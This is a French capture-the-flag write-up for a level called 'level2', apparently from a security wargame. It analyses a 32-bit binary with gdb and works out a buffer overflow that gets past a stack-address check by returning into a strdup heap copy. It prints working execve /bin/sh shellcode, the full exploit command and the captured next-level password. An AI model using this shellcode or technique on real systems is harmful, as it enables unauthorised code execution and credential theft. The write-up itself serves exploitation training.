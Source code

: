 # Level2

On observe un exécutable à la racine : `level2`

```shell
$ ./level2
Hello World
Hello World

$ python -c 'print "A"*100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level2`

```shell
$ scp -P 4242 -r level2@192.168.56.102:/home/user/level2/level2 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level2
```

_résultat sauvegardé dans [source.md](source.md)_

Nous avons `76(src) + 4(EBP) = 80` de disponible

Ce qui nous laisse assez de place pour effectuer un `Buffer Overflow`

sachant que le shellcode fait `45` caracteres, il nous reste `80 - 45 = 35`

On se retrouve avec

```shell
$ python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'
```

Mais pour l'instant nous n'avons pas l'EIP qui pointe vers l'un des `NOP` (`\x90`) et ne commençant pas par `0xb` car notre shellcode est stocké sur la stack, ce qui valide la condition `eax == 0xb0000000` après le `AND`.

On va se servir du `strdup(&src)` qui copie notre chaîne de caractères en mémoire mais cette fois sur la `heap`.

On regarde donc le retour de `strdup` pour trouver l'adresse vers laquelle pointer.

```shell
$ gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *p+105
Breakpoint 1 at 0x804853d
(gdb) run <<< $(python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
...
Breakpoint 1, 0x0804853d in p ()
(gdb) i r eax
eax            0x804a008    134520840
```

Enfin nous pouvons ajouter l'adresse de retour du `strdup` qui pointe sur notre string mais pas sur la stack pour contourner le `if`

**Ne pas oublier d'inverser l'adresse** `0x804a008 => "\x08\xa0\x04\x08"`

```shell
$ (python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08"'; cat ) | ./level2
������������������������������������^�1��F�F
                                            �
                                             ���V
                                                 1�����/bin/s�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
Ctrl+D
```
